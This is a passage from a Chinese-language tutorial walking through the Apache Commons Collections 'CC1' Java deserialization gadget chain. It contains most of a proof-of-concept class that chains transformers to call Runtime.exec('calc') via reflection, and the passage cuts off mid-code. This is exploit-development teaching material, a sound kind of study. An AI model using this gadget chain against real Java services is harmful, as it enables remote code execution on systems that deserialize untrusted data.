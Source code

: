 这样构造之后就可以，第一次调用`ConstantTransformer`类的`transform`方法从而返回`Runtime.class`。

```java
        for(int i = 0; i < this.iTransformers.length; ++i) {
            object = this.iTransformers[i].transform(object);
        }
```

此时`object`变为`Runtime.class`，同时作为参数传入`InvokerTransformer`类的`transform`方法，也就是这样：

```java
object = ConstantTransformer(Runtime.class).transform(xxx);
object = InvokerTransformer(xxx,xxx,xxx).transform(object); //此时括号中的object为Runtime.class
```

最终完整`CC1Poc`如下：

```java
package org.example.CC1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;


public class CC1Poc {
    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }

    public static Object deserialize(final byte[] serialized) throws Exception {
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        return objIn.readObject();
    }

    public static void main(String[] args) throws Exception {
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new
                        Class[]{String.class, Class[].class}, new
                        Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new
                        Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new
                        Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new
                ChainedTransformer(Transformers);
        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", "aaa");
        Map<Object, Object> transformedmap =
                TransformedMap.decorate(map, null, chainedTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
```